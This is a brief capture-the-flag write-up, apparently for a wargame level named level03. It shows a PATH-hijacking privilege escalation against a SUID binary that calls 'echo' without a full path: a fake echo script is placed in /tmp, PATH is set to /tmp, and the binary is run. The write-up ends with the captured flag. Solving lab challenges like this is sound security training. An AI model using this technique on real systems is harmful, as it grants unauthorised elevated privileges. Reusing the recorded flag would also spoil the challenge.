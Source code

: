 # level03

![[ls.png]]
> s in `ls -l` means SUID bit (means that it can run with as the owner)

`strings ./level03`
![[strings.png]]
> Sanitization of env but not of echo

`echo /bin/getflag > /tmp/echo`
`export PATH='/tmp'`
`./level03`
![[getflag.png]]

### Flag = qi0maab88jeaj46qoumi7maus